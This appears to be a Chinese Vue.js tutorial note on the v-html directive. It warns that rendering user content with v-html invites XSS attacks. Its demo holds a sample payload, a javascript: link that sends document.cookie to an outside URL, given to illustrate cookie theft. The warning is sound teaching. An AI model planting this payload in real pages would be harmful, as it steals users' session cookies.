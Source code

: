 ###  v-html
      v-html指令：
              1.作用：向指定节点中渲染包含html结构的内容。
              2.与插值语法的区别：
                          (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                          (2).v-html可以识别html结构。
              3.严重注意：v-html有安全性问题！！！！
                          (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                          (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
####  Cookie图解
![在这里插入图片描述](https://img-blog.csdnimg.cn/84c165bdd03b4fa9bf03ae6434f7fe75.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjE2Njkw,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a709a220249e45d0a7004538c5f2090f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjE2Njkw,size_16,color_FFFFFF,t_70)

####  v-html的安全性问题
```javascript
<!DOCTYPE html>
<html>

<head>
    <meta charset="UTF-8" />
    <title>v-html_指令</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好,{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false
        new Vue({
            el: "#root",
            data: {
                name: "尚硅谷",
                str: '<h3>你好啊!</h3>',
                str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>哈哈哈哈哈哈哈</a></a>'
            }
        })
    </script>
</body>

</html>
```
> 此时，若在百度贴吧用户输入的内容中使用v-html进行内容渲染，恶意用户就可以通过document.cookie来进行恶意引导用户点击来获取其它用户的cookie数据。此即为XSS攻击。
